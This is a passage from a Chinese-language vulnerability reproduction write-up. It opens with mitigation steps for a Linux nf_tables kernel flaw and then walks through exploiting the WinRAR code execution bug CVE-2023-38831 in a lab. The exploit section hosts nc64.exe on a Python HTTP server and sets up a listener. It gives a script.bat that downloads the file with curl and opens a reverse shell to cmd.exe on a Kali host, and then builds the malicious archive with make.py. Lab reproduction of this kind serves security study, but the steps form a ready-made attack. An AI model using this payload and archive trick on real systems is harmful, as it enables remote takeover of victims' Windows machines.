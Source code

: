 ### 漏洞修复

```
修复方案
1、内核升级到6.3.2及以上
2、临时解决措施
禁用用户命名空间，RHEL 8用户可参考：
https://www.stigviewer.com/stig/red_hat_enterprise_linux_8/2021-12- 03/finding/V-230548
将内核模块 nf_tables 列入黑名单来防止加载受影响的代码，参考：https://access.redhat.com/solutions/41278
```

## CVE-2023-38831WinRAR代码执行漏洞

### 漏洞复现

```
python -m http.server 8888
nc64.exe文件放到kali指定目录，并打开python服务，确保靶机能下载到nc64.exe文件。
```

![image-20241130010518493](CVE漏洞复现/image-20241130010518493.png)	

```
kali监听7777端口，等待反弹链接
```

![image-20241130010745169](CVE漏洞复现/image-20241130010745169.png)	

```
本地准备好poc压缩包。
里面包含一个test.png和script.bat，其中png文件是用于混淆的，其实也可以不要。
其中script.bat的脚本如下，用于下载kali提供恶意文件，并执行反弹shell到kali机器上。
curl http://192.168.15.128:8888/nc64.exe -O nc64.exe & nc64.exe 192.168.15.128 7777 -e cmd.exe -d & test.png
```

```
然后使用python脚本，制作好poc恶意压缩包。恶意的压缩包是被设计好的，图片文件的名称和目录名称都是一样的。
python .\make.py test.png script.bat poc.zip
```

```
注意这个恶意压缩包的文件内容。后续会讲原理
```

